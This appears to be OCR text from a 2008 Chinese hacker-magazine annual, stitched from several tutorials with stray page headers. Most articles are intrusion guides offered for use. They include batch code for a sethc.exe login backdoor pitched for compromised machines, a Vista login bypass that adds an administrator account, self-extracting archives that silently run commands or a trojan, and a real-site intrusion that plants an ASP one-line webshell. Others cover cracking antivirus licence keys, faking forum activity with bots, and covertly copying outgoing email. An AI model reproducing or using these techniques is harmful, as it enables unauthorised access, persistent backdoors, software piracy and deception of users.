在使用之初，网络嗅探器（影音神探）需要事先设置，主要是定义本机网卡连接，以及定义待搜索流媒体文件的格式，这样有助于更快速的搜索到需要的文件。而通常情况下，用户计算机都只有一块网卡，软件会自动识别；唯一要做的就是尽量缩小探测范围，即设置待搜索的视频文件格式。设置完成后，返回探测界面单击“开始嗅探”按钮；然后再打开要找地址的网站，软件就会在地址列表框显示找到的地址。对于视频文件类型，网络嗅探器(影音神探)会在搜索结果中用红色字体高亮显示。需要注意的是，一定要先启动软件的探测功能，然后再打开待寻找地址的网站，这样才能成功。对于寻找到的视频地址，网络嗅探器(影音神探)提供了复制地址，需使用相应的下载软件才能实现下载。


#### 关于FLV格式的视频转换软件

- 1. Riva FLV Encoder，其下载地址为http://www.skycn.com/soft/19462.html。
使用方法：（1）将flv档案拖曳到[Input]处；（2）在[Output Directory]处选择存档目录；（3）在[Destination vedio file]处将[.flv]改成[.wmv,AVI,MPEG等格式]（4）点击[Encode]进行转换（转换过程中程序界面会变白，转换完成后即恢复正常）。
- 2. flv2avi，其下载地址为http://www.5iflv.cn/。
使用方法：选择源文件，目标文件放在你想放的地方，其他默认，开始转换。这个软件只能转换成AVI格式。


## 另类的CMD后门

风宁

前段时间我们协会举办了大型的计算机义务维护服务，导致大批量的故障电脑蜂涌而至，而其中有些好故障来的莫名其妙，处理起来异常棘手，也有好些同学的电脑却是无病呻吟，让我们浪费时间瞎折腾。这不，这天又有同学抱来电脑说是出了大问题，一问差点没把我们气晕过去，居然是密码忘了，让我们把她的密码给破了。破密码好说，在登录界面按两下Ctrl+Alt+Del切换到交互式登录界面，然后输入系统自带的帐号“Administrator”后回车进去，然后把她的帐号密码删除，两分钟不到就搞定了。

### 一、麻烦

这天又来了一个破解密码的，然而她的系统是我一手配置，因为她的电脑使用ADSL宽带上网，考虑到安全性就把她的电脑上所有可能存在的后门都给关了，在帐号处理方面不仅删除了系统里的无用帐户，而且连“Administrator”和“Guest”帐号都改了名，如图1。而且还设上了密码，所以密码破解起来就比较麻烦了，不过难度也不大，使用“黑客X档案”去年第11


# 傻瓜黑客

2008 合订本 上卷


图2


图3


图4

期“手工破解 XP 用户登录”一文所介绍的方法，在 DOS 下使用 CMD.EXE 替换 SETHC.EXE，然后在出现登录界面后按五下 Shift 键调出 CMD.EXE，再新建一个管理员帐户，这样就轻松解决了问题。问题是解决了，但是过程却很麻烦，而且如果无法切换到纯 DOS 状态的话这个方法根本派不上用场，所以我就想能不能预先把 CMD.EXE 和 SETHC.EXE 替换好，以后我们破密码就方便多了。

### 二、问题

如果我们把 CMD.EXE 和 SETHC.EXE 永久替换的话，那么所有知道这个方法的人都可以随意使用电脑，而且用户还不能正常使用系统辅助工具。突然想到了系统的登录和关机脚本，于是我就想，能不能写个关机时运行的程序，让系统每次关机时都把 CMD.EXE 和 SETHC.EXE 替换，再写个登录时运行的程序，让系统把 CMD.EXE 和 SETHC.EXE 替换回来。但是我又想如果这样做的话，虽然方便了用户的使用，但同时也方便了别人。于是我又想到给 CMD.EXE 加个密码，只有知道密码的人才能使用，而且在用户登录以后使用 CMD 就不再需要输入密码。

### 三、解决

首先我们需要一个需要身份验证才能使用的 CMD.EXE，因为我比较擅长批处理，所以就使用批处理编写了这个程序，然后再用 VisualBat 把批处理编译成 EXE 文件（VisualBat 的使用方法请参看以前的“黑客 X 档案”），程序代码如下：

```
@echo off
::关闭命令回显
Color f1
::设置窗口背景及文字颜色
Title 身份验证
::设置窗口标题
Mode con:cols=50 lines=13
::设置窗口的列宽和行高
:sta
::标识一个跳转标识
Cls
::清屏
Set st=%random%
::设置一个随机数
Echo 请输入验证码%st%
Set /p input=
::清空变量，这句话看似没用，但是在很多时候却可以避免出错，这是我的经验：
Set /p input=
::等待用户输入。
if "%input%"=="" goto sta
if not "%input%"=="%st%fengning" goto error
::当用户所输入的内容与预先设置的字符不相等时跳转，这里的“fengning”就是我们所设置的密码。
Start cmd.exe
::调用 CMD.EXE
Exit
::退出批处理
error
cls
Echo 非法用户！
Pause>nul
::暂停程序且无提示
Exit
```

把以上代码复制到 VisualBat 中编译成 EXE 文件，然后改名为 sethc.fengning.exe，运行效果如图 2 所示，输入“26519fengning”就可以打开 CMD.EXE 了。把这个程序复制到“c:\windows\system32”目录下，接下来我们再使用批处理写一个系统关机时运行的程序，代码如下：

2008 合订本上卷

傻瓜黑客

```
@echo off
Rem %systemroot%\system32\sethc.exe sethc.exe.bak
Rem %systemroot%\system32\sethc.fengning.exe sethc.exe
::更改文件名
Exit
```

把以上代码使用记事本另存为“changecmd.bat”，再用批处理写一个系统登录时运行的程序，代码如下：

```
@echo off
Rem %systemroot%\system32\sethc.exe sethc.fengning.exe
Rem %systemroot%\system32\sethc.bak sethc.exe
Exit
```

把以上代码使用记事本另存为“recmd.bat”，保存到“c:\windows\system32”目录下。然后运行“regedit32”打开注册表，依次展开HKLMSOFTWARE\Microsoft\Windows\CurrentVersion\Run，在右边窗口新建一个“字符串”键，键值为c:\windows\system32\recmd.bat，如图3。再运行“gpedit.msc”打开组策略编辑器，依次展开“计算机配置→Windows设置→脚本(启动/关机)”，双击右边窗口的“关机”选项，在弹出的“关机属性”窗口中单击“添加”按钮，在“脚本名”一栏填写c:\windows\system32\changecmd.bat，如图4，单击“确定”保存退出。

这样我们的准备工作就基本做完，问题也迎刃而解，以后如果忘了密码，就可以在出现登录界面时通过调用系统辅助工具的方法来打开CMD，然后新建管理员帐户删除密码。顺便提一下，调用系统辅助工具的方法有五种，常用的是连按五下Shift键调用“粘滞键开关”，此外还有按住右SHIFT键八秒调用“筛选键开关”，按组合键左ALT+左SHIFT+PRINT SCREEN调用“高对比度开关”，按组合键左ALT+左SHIFT+NUM LOCK调用“鼠标键开关”和按住NUM LOCK键五秒调用“切换键开关”。

### 四、点睛

这样解决问题实际上是在计算机上建立后门，方便了我们维护人员进行后期维护。试想，如果我们把此法用在肉鸡上，是不是就再也不怕马儿被杀而丢鸡了（此法只适用在服务器和有固定IP的肉鸡上）？经测试，发现在进行远程桌面连接的时候依然可以调用系统辅助工具，有兴趣的朋友可以自己试试。

杨俊


## 火爆论坛 轻松营造

现在搭建一个论坛已不是什么高深的技术了，Discuz、PHPWIND、动网等论坛都比较成熟，并且免费提供个人版，再加上域名和空间都纷纷降价，不少小菜都搭建起了属于自己的论坛。论坛倒是搭建起来了，可最头疼的就是人气问题了，注册人数少、没多少人访问、吸引不了人气，一定很心寒吧！那有没有什么办法来解决呢？毕竟面子问题也是很重要的。答案是肯定的，今天我们就一起来搞定，就以目前比较流行的Discuz论坛来进行演示，至于其它的论坛方法也大同小异。论坛的搭建过程我就不介绍了，可以参照杂志上以前文章。

### 一、无限注册会员

新建立的Discuz论坛一开始注册的人数肯定不多，看着寥寥几个注册人数怎么好意思向朋友介绍呢？最笨的方法就是手工注册，可这种人肉方法又累又费时间，在此我介绍一款工具——丛林论坛注册王，它可以批量自动注册论坛会员。由于我们是使用软件自动注册，所以要先在论坛后台进行一些设置，把注册时的验证码和注册问题功能暂时关闭掉。使用管理员帐号进入Discuz后台，在“基本功能”的“验证码设置”里，确保新用户注册用户注册这一功能没被选上，在“验证回答设置”功能里，新用户注册也不选上，如图1，图2。设置好后去论坛前台点“注册”，发现只有输入用户名、密码和EMAIL选项就可以了。

我们现在运行丛林论坛注册王，只需要在上方输入论坛注册地址即可（也就是你论坛点击“注册用户”的地址，默认注册文件是register.php，比如http://www.xlddd.cn/register.php），如图3。软件自带了5000个会员名和会员密码，点击注册按钮后软件就开始自动注册了。如果嫌5000个注册帐户还不够用，可以使用附带的2万个会员的注册帐户和密码，只要把文件名改成ZHUCE.TXT，替换掉原文件重新运行丛林注册王就可以了。如果还想注册更多，可以使用自带的丛林论坛会员生成器生成任意多的会员，剩下的工作就交给电脑让它自动去注册，一觉醒来就会发现自己论坛也有数万注册会员了。在丛林论坛注册王左下角的“已成功注册的会员”就是软件自动注册成功的，我们把里面的用户名和密码复制到文本文件里，下面还会用到的。


# 傻瓜黑客

## 2008合订本上卷


### 二、论坛千人在线

但再看看你论坛的在线人数也就寥寥几个人，一定会感到很不好意思吧，我们再来把在线人数搞点，可以让成百上千人同时在线。我们使用丛林采集发帖王，如图4。在步骤一里设置好自己网站的首页地址和论坛登录地址，默认首页地址如http://www.xlddd.cn/index.php，默认登录地址如http://www.xlddd.cn/logging.php?action=login。在下步上选你论坛的Discuz类型，如图5。

再在步骤三的“已注册会员设置”里把上次注册的N多论坛会员的会员名和密码复制到这里（现在用到了吧），如图6，然后点“保存”一“返回”。点击步骤四的“增加在线人数会员上在线”，这里可以设置会员集体上线人数，几百几千随你设置，接下来点击“会员自动上线”，刚才注册的那些会员就开始一个个的自动上线了，去论坛首页刷新下，就会发现已经有N多会员上线了，如图7。


### 三、论坛自动点贴

现在论坛的注册人数已经数万了吧，是不是很有成就感，在线人数也变多了，但发的帖子只有寥寥几个人点击，是不是感觉很没面子，照样搞定它。点击丛林采集发帖王步骤四里的“批量增加帖子人气数”，如图8。如果我们想把某一个帖子的点击率提高，就点击“单贴增加点击率”，然后按照提示输入帖子地址和点击数，譬如输个500，过会儿再看那帖子就有500多的点击了。这个功能不仅针对论坛有效，对网站文章、百度贴吧帖子等都也有效，并且点贴速度非常快，几秒钟就能产生几十的点击率。如果你想对论坛众多帖子批量点击也可以实现，在上图的“某页帖子列表地址”输入论坛某分页地址，譬如http://www.xlddd.cn/forumdisplay.php?fid=2，在“人气最大数”设置好点击数，点击“开始批量增加帖子点击率”就开始批量点击了，过会儿再刷新下就会发现每个帖子都有数百的点击率了。


### 四、论坛自动回帖

现在每个帖子也都有数百的点击率，可都没人回帖，还是显得有点冷清，我们继续把回帖也搞定。由于Discuz论坛防止恶意灌水，默认对发帖时间有所限制，所以要先把这个功能取消掉。进入Discuz论坛的后台，在“基本设置”一“服务器优化”里，我们把发帖灌水预防设为0（0为不限制）就可以了，如图9。接

152

## 2008 合订本上卷

# 傻瓜黑客


- 图8：丛林采集系列软件 http://www.conglin.cn
- 图9：回帖选项设置说明
- 图10：论坛顶贴机自动设置界面
- 图11：自动回帖内容设置界面
- 图1：Signup for your Linkideo.com account 注册界面
- 图2：Linkideo VPN连接设置界面

下面点击丛林采集发帖王步骤四的“全自动会员在线，点贴，回帖，发帖”按钮，如图10。“回帖内容”选项里，默认已经有几百条回帖内容，如图11。我们也可以自定义回帖内容，直接在这里编辑就可以了。如果想对某一帖子做回复就点击“单贴顶贴”，然后输入帖子地址和回复数量就开始顶贴了。如果想对某页帖子都自动做回复，就设置好帖子列表后点击“论坛火焰开始进行”。

现在，你的论坛已经有几万名注册会员，论坛在线人数也有几百几千人，每个帖子都有几百的点击率，回帖数量也有几十，我们做上述工作不是主要的目的，主要的是改变别人去你网站的映象，谁也不愿意去人多的论坛里转悠，这和临阵磨枪不快也光的道理有点类似，别人到你论坛一定会刮目相看。如果你网站的内容好，回访的粘稠度会很高，也会更加关注你的论坛，你和别人宣传自己的论坛时也会底气十足，这些都是为日后的自然流量做基础。到那时访问人数越来越多，就不需要采用这种虚假手段骗人气了，可以真正拥有属于自己的大型论坛。目前对论坛人气还发愁的小站长们建议试试丛林采集系列软件，可以节省很多时间，带来很多人气和更多流量。

本文以 Discuz 论坛进行演示，其它的动网、PHPWIND等论坛大同小异，我们可以去conglin.cn下载各种论坛版本的丛林采集发帖王和注册王使用，本文只是对其中几项实用功能做简单介绍，更多功能还需要读者自己去挖掘。

> （本文所涉及到的丛林采集发帖王、丛林论坛注册王、演示动画已收录到光盘中）

## Linkideo 又一VPN代理服务器

张诚

在去年第七期的杂志上曾经介绍过AnchorFree Hotspot Shield这个免费的VPN工具，但是这个工具有个弊端，就是广告太多，有时候甚至都到了忍无可忍的地步。虽然我们使用Mozilla Firefox的话，可以使用一段GreaseMonkey脚本移除Hotspot Shield的广告条，但即使这样，还是显得麻烦，因此寻找另一个既免费又安全的VPN代理工具给各位父子就成了本菜鸟义不容辞的任务，现在就为大家介绍一下今天的主角——Linkideo。

Linkideo是英国的一个VPN服务提供商，以前只提

# 傻風黑客

供收费的 VPN 服务，如今也开始提供免费的 VPN 服务了。Linkideo 的免费帐号带宽是 128kbit/s，速度还是不错的。目前 Linkideo 分配给用户的 IP 地址是法国的，暂时还不知道是否会经常更改 IP 地址。

首先在浏览器访问 http://www.linkideo.com/sign-up，注册一个帐号（图 1），随后登录邮箱，激活该帐号。

接下来我们就要在系统中建立一个 VPN 的拨号客户端了，打开网上邻居，在左上角的地方点击“查看网络连接”，然后在网络连接页面中同样点击左上角的“创建一个新的连接”，选择“连接到我的工作场所的网络”，在下一步中选择“虚拟专用网络连接”，接下来在“公司名”中输入“Linkideo VPN”（图 2），再下一步的“VPN 服务器选择”页面中输入“pptp1.linkideo.com”（图 3），最后一路点下一步就可完成连接的设置了（图 4）。

设置好了 VPN 的拨号程序，我们就可以像平时拨号上网一样很容易就可以拨入 VPN 服务端了，我看了一下此时的 IP 地址，我们的 IP 已经变成法国了（图 5）。至此，我们已经完成了 VPN 的建立。至于 VPN 连接的优点，在以前的杂志中都曾经详细的介绍过，这里就不多谈了。


## 突破 VISTA 登录，还有紫光输入法

CJ 也疯狂

记得在去年第 5 期的杂志中有篇“最新体验 Vista 操作系统输入法漏洞”文章，介绍了如何利用 google 和极点中文输入法绕过 Vista 系统的登录验证程序来进入系统，当时感觉挺有意思的。正巧最近在学校机房上课感觉很无聊，既不能上网又不能玩游戏，想起了上边的输入法漏洞，就在机房的电脑上试验了一下，没想到电脑里还真安装了极点五笔，于是就轻松突破了 XP 系统的登录界面，调出了我们熟悉的 CMD。

但我回到宿舍想在自己的电脑上再玩玩的时候却出现了意外，在 XP 系统的登录界面怎么也切换不出第三方输入法，我又在 Win2000 和 Win2003 下试了试，也没有搞出来，不清楚是什么原因造成的，很是郁闷。我同学的电脑使用的是 VISTA 系统，我决定拿他的系统再试验一下，测试的输入法是“紫光华宇拼音输入法 V6.1.0.6.223 版本”，我查了一下应该是最新的版本！至于搜狗输入法和谷歌输入法为什么没有切换出来，我只好安慰自己是技术不到家了。打开电脑，进入 VISTA 的系统登录界面，按 ctrl + 空格，切换出微软自带的输入法，然后再按 shift+ctrl 就可以切换到我们想测试的“紫光华宇拼音输入法”了。输入法切换出来后，点下帮助就会自动弹出我们的 IE 浏览器，默认连接的是他们的官方网址，现在就好办了。选择“文件”下的“打开”（图 1）。我本想简单的通过“浏览”来找到 C 盘下的 CMD 文件，然后再运行的，可居然不让我跳转文件夹，不知道是什么原因，也许是因为权限不够吧。

我只好自己输入路径了，尝试了一下直接运行 explorer.exe 来进入桌面，系统还真给面子，自动加载个人设置了，但是没有跳到桌面，只是在屏幕下方多了个开始的桌面按钮，但点它也是没有反应的。失败了，后来我直接输入 c:\windows\system32\cmd.exe（图 2），点击确定运行后，VISTA 的安全体制问我


2008 合订本上卷

146

## 2008 合订本上卷

# 傻瓜黑客

## 电脑中的手机直播

## 10℃留言

们要运行这个cmd.exe文件吗？当然是选择运行了，成功的出现了我们熟悉CMD界面（图3）。来看看是不是管理员的权限，我在弹出的cmd下执行“net user 123 123 /add”增加用户成功了，执行“net localgroup administrators 123 /add”将新用户增加到管理员组也OK了（图4）！最后，使用这个新用户登录进入系统就可以了，至此我们利用紫光华宇拼音输入法也就成功的突破了VISTA的登录验证程序了！

最近局域网内老是有人在搞ARP攻击，虽然现在可以勉强上网，但速度极慢。记得以前在玩手机的时候找到了一个好东西，现在就分享给大家吧！这个东西本来是用于手机上以让手机可以看直播，不过手机流量也很烧钱的，现在我们就要把它弄到电脑上，让电脑也可以看直播。大家都知道移动的GPRS速度巅峰也才11KB/S，大家网速即使再慢，但这个速度还是有的吧^_^。我们需要一个能够浏览WAP网页的浏览器（IE和腾讯TT因为表头的关系，默认访问的网页都是HTTP的），可以使用Opera浏览器，修改一下表头，就能够访问了。Opera目录中有一个Opera.dll，表头就在里面。Opera.dll是使用ASPACK 2.12加的壳，使用ASPACK通用脱壳机先把壳脱掉（图1），然后使用UltraEdit32打开脱壳后的文件，随便替换opera/9.26为自己想改的名称，切记长度要一致（图2），大家也可以直接使用我修改好的文件。给大家说明一下，并不是所有的WAP网页都可以访问的，比如腾讯3G就不能，我想应该是IP的限制，要不然就可以登录WAP网挂QQ了。使用Opera登录http://wap.ggtv.com.cn/（图3），可以看到很多的节目表单吧。点击一个你喜欢看的节目，把文件下载下来，如果大家点击播放后没有反应，那应该是缺少解码器，解码器的下载地址是http://www.ggtv.com.cn/cmtsetup.rar，最后我们来看一下播放的效果（图4）。其实我们也可以去官网直接观看的，不过修改头文件就可以浏览更多的WAP网页了，而且网速慢的时候使用百度的WAP网页查找资料也不失为一种办法。（本文所涉及到的ASPACK通用脱壳机、修改过的Opera和解码器已收录到光盘中）

## 自解压背后的注释

德少[H.C]

大家都知道WINRAR可以生成自解压文件，而且可以添加注释，方便了用户，但也方便了我们。用任意文件来生成一个自解压文件，如图1。然后我们切换到注释上，在注释上填写以下代码：setup=http://www.ds87.cn，点确定后执行自解压文件，成功解压后自动打开了网页。如果把刚才的网址，改成我们的马，效果又不一样了。既然可以执行打开网页，我们试一下能不能执行系统代码，在注释中把刚才的改成：setup=net user ds87 /add，然后打开试一下，成功了（图2）。


我们在打开的时候，都有弹出解压文件的窗口，接下来隐蔽这个窗口。在刚才的代码中加入以下代码：Silent=1，运行文件后就没有任何的提示，解压文件然后打开了网页或执行代码。我们添加的这些注释是可以被别人看见，当用WINRAR打开自解压文件时，注释就显示在右边。为了避免别人看到注释，我在真正的注释前面加上N个空行，不注意的人还以为是一片空白（图3）。


### 颠覆突破局域网封锁来玩游戏

李红

众所周知，学校和公司里的电脑一般是不允许你玩游戏的，因为网管在服务器端进行了限制，如果你想突破这种限制玩游戏，那就看看本文介绍的秘技吧！


#### 一、使用 socks 代理+Sockscap32

在局域网的服务器端进行设置，限制客户机登录网游服务器 IP 是常见的封网方法，不过 Sockscap32 软件和 SOCKS 代理，可以让你突破这类限制，下面我们以玩天堂2为例，介绍其突破方法。

首先到以下网站选取一个 SOCKS 代理（例如102.123.59.10:1080）：

- 免费代理服务器http://proxy.spousecare.com/anonproxy/proxy1.htm
- 代理中国 http://www.proxycn.com/
- 中国代理服务器网http://www.cnproxy.com/proxy1.html
- 国外：
- http://www.stayinvisible.com/index.pl/proxy_list
- http://www.proxy4free.com/page1.html
- http://www.anonymitychecker.com/page1.html
- http://www.publicproxyservers.com/page1.html
- http://info.hustonline.net/index/proxyshow.aspx
- http://emuch.net/

然后运行 Sockscap32，在软件主窗口点击 “Files” /Settings 菜单，随之弹出设置窗口，在 SOCKS Server 栏输入 SOCKS 代理 IP（例如102.123.59.10），端口为：1080，勾选 “SOCKS Version5”，选择 “由本地解析所有域名 Resolve all names local”（图1）。若 SOCKS 代理需要帐号密码，则在支持的验证方式下，还要勾选 “帐号 / 密码 Username/password”，点击 “确定” 会弹出窗口，要求你输入帐号和密码；如果 SOCKS 代理无帐号密码，这一步即可省略。


接下来点击 “NEW 新建”，在弹出的窗口中设置通过代理使用的程序参数，Profile Name 栏输入要启动的程序名，点 “Browse 浏览”（图 2），定位到网游安装目录下，找到网游主执行文件（例如L2.EXE），点 “OK” 把它添加进来。现在回到 SOCKSCAP32 主窗口中，你就可以看到网游图标了，以后只要你选择网游（天堂 2）图案，再点击 “Run! 运行”，即可突破封锁玩游戏（图 3）。


有些游戏是用 sockscap32 设置代理的，比如浩方在登陆时就可以代理服务器，与 QQ 用代理登录道理一样。有的游戏（如天使之恋）没法设置代理，只能通过 SOCKSCAP32 运行了。

#### 二、使用 socks 代理+Permeo Security Driver

有些游戏不兼容 SOCKSCAP32，建议你使用 Permeo Security Driver 软件充当代理，以便突破局域网的封锁。软件安装完成后重启动电脑，接下来在任务栏右边会出现 Permeo Security Driver 图标。双击图标，在弹出的窗口中选择 “Out of office”（图4），然后点击旁边的 “Edit”，进行代理服务器设置。


在 Proxy 标签中（图 5），点击右上方的添加代理服务器按钮，随之会弹出一个窗口，请选择“SOCKS5 proxy”，然后在下面输入代理IP及端口（例如102.123.59.10和1080，如图6），点OK退出。接着进来DNS标签，设置域名服务器。在左侧Local下输入域名服务器IP（例如当地电信的DNS 202.102.98.1），选择下面的“Use local”（即使用本地代理，如图7）。


如果你有远程代理，则在右侧填写，然后选择“Use remote”。现在进入Applications标签，设置需要代理的网游程序。建议你选择Proxy only，不要选Proxy all（如图8），否则玩游戏时会频繁断线。点击Proxy only右边的Include list设置使用代理的程序列表，点击Add增加程序，建议把游戏安装目录的所有exe程序都加进来（图9），否则游戏可能会用不上代理；设置完成后，直接启动游戏即可。


#### 三、使用SocksOnline

如果网管只开放80端口用于网页浏览、其他端口全部封锁，要突破这类限制玩网游，推荐你使用SocksOnline。该软件能把你的电脑变成代理服务器，默认占用你的1080端口作为SOCKS端口，将数据传送到未封闭的80端口，因此能突破封锁。下面我们以联众游戏为例，介绍用其突破方法。

首先到http://www.waysonline.com/mader/buy/buy02.htm免费注册一个帐号，免费帐号虽然能长期使用，但是却只能有5个连接数（可能会经常掉线），付费会员速度更稳定。然后启动SocksOnline，输入帐号密码登录。点击“网络”标签，勾选“使用SOCKS代理”，将SOCKS代理服务器设定为“127.0.0.1”（你的本地IP），端口设为“1080”（图10）。最后，单击测试，检验代理服务器的有效性，如果提示“代理服务器工作正常”，表明设置成功。


接下来打开联众游戏大厅，点击“设置代理服务器”，勾选“使用代理服务器上网”，选择“使用Sock5协议”，在代理服务器地址栏填入localhost或127.0.0.1，端口填1080（图11），最后点“登陆”即可进入“联众游戏”了。

提示：使用SocksOnline时，本机上不能再启动防火墙之类的后台软件，否则会拦截SocksOnline建立的代理服务器。与这个软件类似的还有“通通通”，有兴趣的朋友可以试下。


（本文所涉及到的Sockscap32、Permeo Security Driver和SocksOnline已收录到光盘中）

### 入侵技巧之Javascript脚本

冰域剑客

最近我们这里的网吧换管理软件了，全搞成了叫一贝通的管理软件，朋友AOSEMP和我一起搞一贝通的网站，我欣然答应，算是做义务检测了。朋友对jsp比较熟悉，负责搞主站，我就负责搞同一网段的其他机器。

打开目标网站，发现是asp的程序，其中有好几个页面有参数传递，不过都过滤了，如图1。似乎是在脚本前加了一个判断语句，如果参数不是数字，就给出警告，并关闭窗口。有朋友可能会有疑问：这里会不会存在cookies注入呢？我测试了一下，并不存在。至此，想靠注入进后台的路子是中断了。

接下来我用阿D来扫目标网站的后台，这是个人习惯，多扫几个页面搜集信息，可能后面会有用。阿D最终扫出了Uploadfile目录，还有admin和user目录。从那个Uploadfile目录来看，很有可能目标网站使用了ewebeditor（这个应该是属于经验了，很多程序员在使用ewebeditor时是将文件传到Uploadfile目录里的），但是并没有扫出ewebeditor的目录来，因为我在阿d的设置当中已经添加过各种形式的ewebeditor目录，这里暂时还没有办法利用，因为对方可能改EWEBEDITOR目录的名称。


# 傻瓜黑客

2008 合订本上卷

直接打开后台，出现了如图2所示的页面。大家有什么发现没有啊？左边的菜单栏似乎可以直接访问，程序员只用了一个javascript脚本直接将页面转到登陆页，但是在转瞬即逝的这两2秒里，我们发现了程序员天大的疏忽，菜单栏没有对访问做任何限制，在后面的测试中，我更是发现了比这个漏洞更致命的低级错误，大家且看我分析下去。

将本地脚本禁用，大家设置internet选项设置安全级别为高就可以了。然后访问后台页面，没有弹出警告，页面也没有跳转，右键查看源代码，发现了这段脚本：<script>alert(" 请登陆！");window.top.location.href="adm_Login.asp";</script>。程序员真是幼稚得可笑，以为直接来个本地转向就可以解决问题了，却不使用asp中的response.redirect来进行转向。我右击查看到左边菜单栏的地址为menu.asp，然后我直接访问这个文件，出现了完整的菜单。但是这个时候点击菜单是没有反应的，因为我们之前将脚本禁用了。再次在internet选项中选择安全级别为中，允许执行脚本，可以打开了，如图3。

打开之后我们再次禁止执行脚本，防止页面转向，记得把所有子栏目都打开，免得重复设置的次数太多。经过测试，修改密码那里不能成功修改，看来程序员还不算笨。

不过这也不能挡住我入侵的脚步，打开行业资讯那一栏，出现了添加资讯的页面。这个页面也证实了我之前的一个想法，确实有ewebeditor，如图4。

查看网页源代码找到了ewebeditor的地址，然而很可惜，我下了他的数据库，在几个md5破解网站里破不出来，暴力破解怕是要等到机器报废的那天，这里是走不通了。我又看了其他的几个页面，包括数据库备份和恢复，不能操作成功。但是当我在前台看新闻页面时，有了新的发现。他的新闻页面格式是：news/Data/8805.asp这样的。好可爱的程序员，将新闻直接生成asp文件了。那我们来添加一条新闻，在新闻中插入一句话木马吧。在图4的添加页面当中，在信息来源那里填上<%execute request("value")%>，其他地方乱填，点击提交，新闻添加成功。来到前台，最新一条信息为8809.asp，打开后出错，如图5。


图3


图4


图5

用一句话本地端连接，成功传上了大马，因为没有发现系统本身漏洞和第三方软件漏洞，此次入侵只好就此结束，很可惜，没有拿到服务器的权限。

这应该是我第二次遇到这种搞笑的asp程序了，一些asp程序员以为用个javascript转向的脚本就可以糊弄观众，呵呵，却不知道，单纯的本地转向是没有多大用处的，应该使用session和cookies进行双重验证，而且转向一定不要弄个本地就完事，还是应该用response.redirect来进行重定向。欢迎大家到x官方论坛来与我讨论，我的id是lijiejie。

## 玩转卡巴

司徒浩男 张超

### 一、随意延长卡巴KEY文件到期年限

卡巴斯基是一款很好用的杀毒软件，但是我们经常遇到KEY过期后不能升级的烦恼，试问一个不能升级的杀毒软件如何对抗日新月异的病毒大军。下面我就教大家怎么延长KEY使用年限，十年二十年随你定。


图1


图2


图3

158


首先我们要关闭卡巴的自动保护功能，如图1 ，然后退出卡巴，执行Kaspersky 杀手，程序界面如图2。

在“好的，我已认真阅读免责声明”前打钩，下面的可以修改K E Y 到期的年数，修改好后点击“执行破译代码”，根据提示操作，如图3，图4。破译已经完成了，现在让我们来看看结果，打开卡巴斯基，找到授权文件处，已经延长到2027年了，如图5。

### 二、防止恶意修改系统时间使卡巴失效

卡巴的主动防御很厉害，能阻止许多木马的进驻。但是它却有个可笑的弱点，修改系统时间就能让它失效，所以木马在做完免杀后还会加上突破卡巴主动的功能。我们作为小黑，不光会突破主动防御，也要好好保护系统免遭这种攻击。

防止修改系统时间不需要借助外部工具，使用系统自带的组策略就能摆平。在运行中输入gpedit.msc 打开组策略，依次找到计算机配置———windows 设置———安全设置———本地策略———用户权利指派———更改系统时间，如图6。删除里面的两个用户组，这样就没有用户能修改系统时间了。不过，当我们需要修改系统时间时，仍然来到这个地方，点击“添加用户或组”，如图7。在下面的白框中输入你当前的用户名，点击确定添加完成，如图8。（本文所涉及到的Kaspersky 杀手已收录到光盘中）


## 为邮件发送安插一个“暗哨”

花的神明

在网络冲浪过程中，发送电子邮件是最常见的操作。邮件发送看起来很简单，但也存在安全问题，例如别人在使用您的电脑时，就可能将重要数据通过邮件发送出去，从而导致机密信息泄露。因此，对邮件的发送操作进行彻底监控，就显得很有必要了。使用EmailObserver 这款独特的安全软件，就可以轻松实现上述功能。EmailObserver 采用特殊的运行方式，可以对本机上的所有邮件发送操作进行监控，不仅可以拦截所有的邮件发送，而且可以将邮件完整复制下来，发送到指定的邮箱中。这样，就可以对本机上的邮件发送情况了如指掌了。

在EmailObserver 安装程序的“Install Options”窗口中可以选择其运行方式，选择“Install in visible mode”项，表示按照正常模式安装EmailObserver（图1）。当安装完成后可以在桌面，开始程序菜单中建立快捷方式，其运行模式是“公开”的。如果选择“Install in hidden mode”项，表示采用隐藏安装模式，不会在系统中留下任何安装信息，同时采用隐秘的方式运行。本例中选择前一种安装模式，当安装之后需要重新启动电脑，使EmailObserver 配置生效。

在默认情况下，EmailObserver 可以跟随系统启动，同时会在系统中生成一个名称为“SMTP protocol service”的服务。在EmailObserver 主窗口工具栏上点击“Monitoring”按钮（图2），在“Monitoring status”栏中勾选“Switch on/off monitoring”项，表示激活EmailObserver 邮件发送监控功能。在“Monitoring options”栏中如果勾选“Don't send emails to real recipient”项，表示当EmailObserver检测到邮件发送操作时，可以阻止邮件发送到原始收件人信箱中，不过建议不要选择该项，否则邮件会被EmailObserver自动拦截。


# 傻瓜黑客

2008 合订本上卷

勾选“Send a copy of outgoing emails to the following address”项，表示当EmailObserver检测到邮件发送操作时自动将邮件内容复制一份，并将其复制的邮件发送到预设的邮箱中，同时并不影响原始的邮件的发送。点击“Add”按钮，在弹出窗口中输入预设的邮箱地址即可。

你可以同时添加多个邮箱，这样复制的邮件可以分别发送到多个邮箱中。在“Additional options”栏中勾选“Enable subject prefix”项，可以输入邮件主题。勾选“Enable forced SMTP server”项，在其下输入SMTP邮件服务器地址，如果邮箱需要验证的话，勾选“My server requires authentication”项，点击“Settings”按钮，在弹出窗口中输入邮箱的账户名以及密码。在“SMTP port”栏中可以根据需要更改SMTP端口号。这样，EmailObserver就可以根据预设的SMTP设置信息，来发送拦截的邮件了。


图2


图3

除了向指定的邮箱发送拦截的邮件外，EmailObserver还可以将其保存在网络存储路径或者本地文件夹中。在EmailObserver主窗口工具栏点击“Saving”按钮，在“Network saving option”栏中勾选“Save a copy of the email messages to the network disk”项，在“Path”栏中点击“Browse”按钮，选择网络共享文件夹（图3）。

如果操作该共享文件夹需要认证的话，在“User login”和“Password”栏中输入帐户名和密码即可。在“Local saving option”栏中勾选“Save a copy of the email messages to the local disk”项，点击“Browse”按钮选择本地文件夹。这样EmailObserver即可拦截的邮件直接保存到预设的路径中。

在EmailObserver窗口工具栏点击“Security”按钮，在“Password and encryption”栏中勾选“Enable password protected login”项，在弹出的窗口中输入管理密码，这样当打开EmailObserver管理窗口时必须输入该密码（图4）。勾选“Enable encryption of email messages saved to the network and/or local drives”项，在弹出的窗口中输入邮件内容加密密码，这样EmailObserver可以将拦截到的邮件内容进行加密，之后才将其保存到预设的文件夹中。

